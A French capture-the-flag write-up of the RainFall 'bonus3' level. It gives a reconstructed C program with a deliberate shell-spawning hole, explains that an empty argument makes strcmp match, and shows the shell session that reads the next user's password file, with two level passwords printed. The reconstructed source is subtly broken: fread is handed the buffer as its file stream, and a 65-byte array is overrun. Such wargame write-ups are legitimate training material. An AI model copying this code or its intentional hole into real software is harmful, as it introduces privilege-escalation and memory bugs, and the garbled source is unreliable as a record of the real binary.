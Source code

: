 # Bonus3

pass : `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`

## Source :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int		main(int ac, char **av) {  // 0x080484f4
	FILE	*file;  // exp+0x9c
	char	str[65];  // esp+0x18
	int		nb;  // esp+0x59

	file = fopen("/home/user/end/.pass", "r");
	bzero(str, 33);
	if (!file)
		return 255;
	if (ac != 2)
		return 255;

	fread(str, 1, 66, file);  // 0x42
	nb = 0;
	str[atoi(av[1])] = 0;
	fread(str+66, 1, 65, str);  // 0x41
	fclose(file);

	if (strcmp(str, av[1]) == 0) {
		execl("/bin/sh", "sh", 0);
	} else {
		puts(str + 66);
	}
	return 0;
}
```

## Recherche :

On voit que le programme fait une comparaison entre `str` et `av[1]`, le plus simple pour que les deux soit égales, est que les deux soient nulles.

Pour que `str` soit nulle, il suffit que lorsqu'on fait `str[atoi(av[1])] = 0;` on ait `atoi(av[1]) == 0`.

`atoi("0") == 0`, mais aussi `atoi("") == 0`

Comme on attend forcément un argument au lieu d'appeler `./bonus3`, on va faire `./bonus3 ""`

## Exploit :

```sh
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cd ../end
$ cat .pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
